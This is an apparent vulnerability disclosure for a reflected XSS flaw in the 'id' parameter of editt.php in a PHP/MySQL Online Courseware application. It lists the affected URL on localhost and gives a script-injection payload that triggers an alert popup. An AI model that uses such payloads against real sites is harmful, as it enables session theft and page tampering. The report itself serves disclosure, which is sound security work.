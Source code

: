 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware – reflected XSS on (editt.php?id=XX) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
editt.php?id=XX 

On this page,id parameter is vulnerable to reflected XSS Attack 
### Proof of vulnerability:
#### Visit this page：
http://localhost/onlinecourseware/pcci/admin/editt.php?id=1
### Payload：
“></script><script>alert(1)</script>
### Trigger popup：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/7572dd29-98be-4490-9294-2713464da72b">
